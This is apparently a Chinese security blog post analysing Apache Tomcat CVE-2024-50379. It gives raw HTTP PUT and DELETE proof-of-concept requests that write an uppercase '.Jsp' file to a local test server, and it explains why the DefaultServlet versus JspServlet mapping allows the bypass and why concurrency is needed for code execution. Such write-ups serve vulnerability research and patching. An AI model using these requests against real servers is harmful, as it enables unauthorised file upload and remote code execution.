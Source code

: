 #  Apache Tomcat CVE-2024-50379   
原创 e0mlja  e0m安全屋   2024-12-19 03:33  
  
昨天发完了有人没复现有很多问题，加了点儿东西，差不多也说清楚了web的这部分。  
  
poc  
  
一开始说的竞争 只测了一个版本，不需要竞争，直接传  
  
（原本猜测是put上去了会再删除所以需要竞争去get getshell的 测试版本9.0.63不需要 代码也没有看到哪里会有删除文件的操作，朴实无华的put）  
  
文件上传  
```
PUT /dsd.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-Fetch-Dest: document
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br, zstd
Cookie: OFBiz.Visitor=10000; uid=11221|1732611643799
Sec-Fetch-Mode: navigate
Content-Length: 14
Connection: keep-alive
123123sssasdad
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3Z3qzs4lL2PWiayciaBCbxuJBApChbca6w5yDlibNOtL0iceJ8hpECaISPA/640?wx_fmt=png&from=appmsg "")  
  
开启readonly，可以写文件(成功就201新建 或者204覆盖)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3ULbWPqa3lH1ic9vg5DN49ebDJES8JYlfLjTmice0jhLicPic6m3HtLLeAA/640?wx_fmt=png&from=appmsg "")  
  
文件删除  
```
DELETE /dsd.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-Fetch-Dest: document
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Encoding: gzip, deflate, br, zstd
Cookie: OFBiz.Visitor=10000; uid=11221|1732611643799
Sec-Fetch-Mode: navigate
Content-Length: 14
Connection: keep-alive
123123sssasdad
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3CZGKLqpCicIwSjVEia0UnKTsiaVq6PE0FNGCnRnONbhU1yIw4WdH6Q0KA/640?wx_fmt=png&from=appmsg "")  
  
代码执行  
  
上面的只是验证的poc，关于代码利用解析还是需要并发的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMWlIK3IRgNxiasbZxn9iayqu3LkwBtLhsrZn8oPibzcicDbuG2KATmZSGoibwHrcjLSfq6ibCbHutsricepg/640?wx_fmt=png&from=appmsg "")  
  
  
为什么大写的Jsp，Jspx可以PUT上传，但是小写的jsp，jspx不能上传  
  
因为当我们使用大写的Jspx，Jsp的时候，tomcat用的DefaultServlet来处理  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMXgKIyp2wlm7arFv7dWacb2Nic6oxKSnDXCbq0bNwlICibfobr3wobgMgotaeGB7KEQIkxBVMf6NbQQ/640?wx_fmt=png&from=appmsg "")  
  
而使用小写的jsp或者jspx的时候，tomcat使用的是JspServlet处理的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMXgKIyp2wlm7arFv7dWacb2ydYWHx8jJO6LDxmdiaWsQpphuKkZW1uJDzxqibAch2lvtUtA9reicAJmg/640?wx_fmt=png&from=appmsg "")  
  
两者的处理方式不一样，所以导致大写的可以上传但是小写的无法上传  
  
关于触发的问题  
  
我们知道tomcat是个中间件，会解析固定的后缀，调用jspserlvet解析，如果不走这个servlet，就不会做解析。所以言外之意 上传其它的后缀如果没有做特殊的处理，默认是不能直接解析的。  
  
tomcat在处理后缀的时候，判断了是否是jsp，jspx，如果是的话，会组装一个JspServlet的wrapper，当判断不是的时候，会组装一个默认的servletwrapper，也就是defaultwrapper，组装在 org.apache.catalina.mapper.Mapper#internalMapWrapper里面完成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMXgKIyp2wlm7arFv7dWacb2981fTpYulAoE4SJqOmEwRpsRJg5aaZdC59BFej0UWQH1fLQGBrtZyw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMXgKIyp2wlm7arFv7dWacb26558BM2mZKXXCgOVMwfZxetMfic0CnVZibe6eg034DP5heibmaKaVLicjg/640?wx_fmt=png&from=appmsg "")  
  
而对于后缀的判断，是从后往前取到.的时候，用.做分割，然后挨个字符进行判断，是否匹配到jsp或者jspx  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1ndgs74BGMXgKIyp2wlm7arFv7dWacb2X7cMTl28Zo3DiazicibDqeuicolbrBKGSOOUcPFbkOe8Y91bIj2zibficSXQ/640?wx_fmt=png&from=appmsg "")  
  
关于为啥并发能够绕过，原理就不太清楚了，fuzz大法。  
  
  
  
  
